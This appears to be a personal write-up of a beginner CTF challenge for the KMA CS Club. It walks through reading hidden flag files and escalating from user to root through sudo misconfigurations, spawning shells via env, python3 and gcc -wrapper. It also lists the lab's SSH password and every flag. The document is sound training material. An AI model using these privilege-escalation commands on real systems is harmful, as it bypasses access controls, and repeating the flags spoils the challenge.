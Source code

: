 # KCSC Newbie Challenge

### KCSC Newbie Challenge

So, one of my friends at the university sent me a link to a Facebook post about a CTF challenge for fresher of the KMA CS Club. After nearly 4 hours of playing this challenge (half of the time I went in the wrong way LOL), I finally passed. Here is my write-up on how to solve it.

#### Link to post:

[https://www.facebook.com/photo?bid=122765970560556\&set=a.120329284137558](https://www.facebook.com/photo?bid=122765970560556\&set=a.120329284137558)

#### Table of Contents

* Information Gathering
* Flags Discovering - Part 1
  * flag1.txt
  * flag3\_4
  * flag5\_6.png
* Privilege Escalation - `mod`
* Flags Discovering - Part 2
  * flag7.txt
* Privilege Escalation - `admin`
* Flags Discovering - Part 3
  * flag8.txt
* Privilege Escalation - `root`
* Flags Discovering - Part 4
  * flag2.txt
  * flag9.txt
  * flag10.txt
  * flag5\_6.png (hardcore version)

#### Information Gathering

* Connect: `ssh user@chall.kcsc.cf -p XXXXX`, password SSH: `kcsc@123`
* Directory `/home/user`:

```
total 112K
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:22 .bash_history -> /dev/null
-rw-r--r-- 1 user user  220 Oct  4 16:22 .bash_logout
-rw-r--r-- 1 user user 3.7K Oct  4 16:22 .bashrc
drwx------ 2 user user 4.0K Oct  7 15:00 .cache
-rw-r--r-- 1 user user  807 Oct  4 16:22 .profile
-rw-r--r-- 1 root root   28 Oct  4 15:32 flag1.txt
-r-------- 1 root root   36 Oct  4 16:30 flag2.txt
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 flag3_4
-rw-r--r-- 1 root root  47K Oct  4 15:32 flag5_6.png
-r-------- 1 root root   28 Oct  4 15:32 flag9.txt
-r--r--r-- 1 user user  17K Oct  4 16:22 read_flag2'
```

* Directory `/home/user/flag3_4`:

```
total 16K
-rw-r--r-- 1 root root   30 Oct  4 15:32 -
drwxr-xr-x 2 root root 4.0K Oct  4 16:31 .
drwxr-xr-x 1 user user 4.0K Oct  7 15:00 ..
-rw-r--r-- 1 root root   34 Oct  4 15:32 ...  
```

* Directory `/home/mod`:

```
total 28K
drwxr-xr-x 1 mod  mod  4.0K Oct  4 16:31 .
drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root root    9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 mod  mod   220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 mod  mod  3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 mod  mod   807 Oct  4 16:31 .profile
-r--r----- 1 mod  mod    31 Oct  4 15:32 flag7.txt
```

* Directory `/home/admin`:

```
drwxr-xr-x 1 admin admin 4.0K Oct  7 15:04 .
drwxr-xr-x 1 root  root  4.0K Oct  4 16:31 ..
lrwxrwxrwx 1 root  root     9 Oct  4 16:31 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Oct  4 16:31 .bash_logout
-rw-r--r-- 1 admin admin 3.7K Oct  4 16:31 .bashrc
-rw-r--r-- 1 admin admin  807 Oct  4 16:31 .profile
-rw-r--r-- 1 admin admin    0 Oct  7 15:04 .sudo_as_admin_successful
-r--r----- 1 admin admin   30 Oct  4 15:32 flag8.txt
```

* Directory `/`:

```
bin  boot  dev  etc  flag10.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

#### Flags Discovering - Part 1

**flag1.txt**

Simply use the command `cat flag1`, we get the flag: `KCSC{part_1_read_file_4zs0}`

**flag3\_4**

* flag3: Using `ls -lah` to list all the file in `flag3_4` folder, we see a file with the name `-`. Using command `cat ./-`, we get the flag: `KCSC{part_3_read_file_strike}`
* flag4: We can also see that in this folder, there is a file name `...`. Using command `cat ./...`, we get the flag: `KCSC{part_4_read_file_quadra_dot}`

**flag5\_6.png**

* flag6: By checking strings in the image file: `strings flag5_6.png`, we get the flag: `KCSC{part_6_read_me_pls}`
* flag5: There are 2 ways to get this flag:

1. Because we cannot display the png using the terminal without any tool, we must somehow have this file in our computer, which allows us to see the image file. To do so, first, we must copy the image file to the `/tmp` folder to be able to copy this file: `cp flag5_6.png /tmp`. Then, in our machine's terminal, using `scp` command to copy this file to our computer: `scp -P XXXXX user@chall.kcsc.cf:/tmp/flag5_6.png /tmp`. Open this file, we get the flag: `KCSC{part_5_u_know_scp}`
2. At first, I don't remember the `scp` way, so my idea is to get the `root` privilege, then install some tool to read the image's content directly in the terminal. This idea will take a very long time (we must get the `root` privilege first), but it is possible as you will see later.

#### Privilege Escalation - `mod`

We return back to `/home` to check how many users are available on this machine. The remaining 2 users are `mod` and `admin`, and each user's `home` folder has a flag file which only that user can open. So, we must somehow "become" those users to be able to read those flag. Checking `sudo -l` for any exploitable vulnerabilities:

```
user@kcsc:~$ sudo -l
Matching Defaults entries for user on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on kcsc:
    (root) NOPASSWD: /home/user/read_flag2
    (mod) NOPASSWD: /usr/bin/env
```

Searching on [gtfobin](https://gtfobins.github.io/), we see that `env` binary can be used for privilege escalation, as this can be run as `mod` user without requiring any password. So, we try to spawn a shell with `mod` privilege using `env`: `sudo -u mod env /bin/bash`, and now we have become `mod`!

#### Flags Discovering - Part 2

**flag7.txt**

Now, we can simply `cat flag7.txt` to get the flag: `KCSC{part_7_wow_u_r_quite_gud}`

#### Privilege Escalation - `admin`

The only user left before getting `root` is `admin`. Checking `sudo -l` for any exploitable vulnerabilities:

```
mod@kcsc:~$ sudo -l
Matching Defaults entries for mod on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mod may run the following commands on kcsc:
    (admin) NOPASSWD: /usr/bin/python3
```

The `python3` binary can also be used for privilege escalation, so we spawn a shell with `admin` privilege using this binary: `sudo -u admin python3 -c 'import os; os.system("/bin/sh")'`.

#### Flags Discovering - Part 3

**flag8.txt**

Now, we can simply `cat flag8.txt` to get the flag: `KCSC{part8_hmm_u_know_env_sh}`

#### Privilege Escalation - `root`

Final target! Checking `sudo -l` for any exploitable vulnerabilities:

```
$ sudo -l
Matching Defaults entries for admin on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on kcsc:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/gcc
```

Again, `gcc` can be used to spawn a shell with `root` privilege: `sudo -u root gcc -wrapper /bin/sh,-s .`.

#### Flags Discovering - Part 4

**flag2.txt**

At the `/home/user` folder, this file along with `flag9.txt` is `root` only. Now, as we become `root`, we can `cat flag2.txt` to get the flag: `KCSC{part_2_hello_pls_not_get_root}`

**flag9.txt**

Like `flag2.txt`, `cat flag9.txt` give us the flag: `KCSC{part_9_r_u_vim_lord??}`

**flag10.txt**

Using `find` command to find this file: `find / -name flag10.txt 2>/dev/null`, we found this file at `/` directory. `cat flag10.txt` give us the final flag: `KCSC{part_10_tuong_vy_la_con_nao_the???}`

**flag5\_6.png (hardcore version)**

As I mention before, we can still get this flag when become `root` without using `scp`. [chafa](https://hpjansson.org/chafa/) is a tool that allow us to see the content of image file directly on the terminal. Install this tool and see the image, we can still get the same flag as the `scp` way:

```
sudo apt-get install chafa
chafa flag5_6.png
```
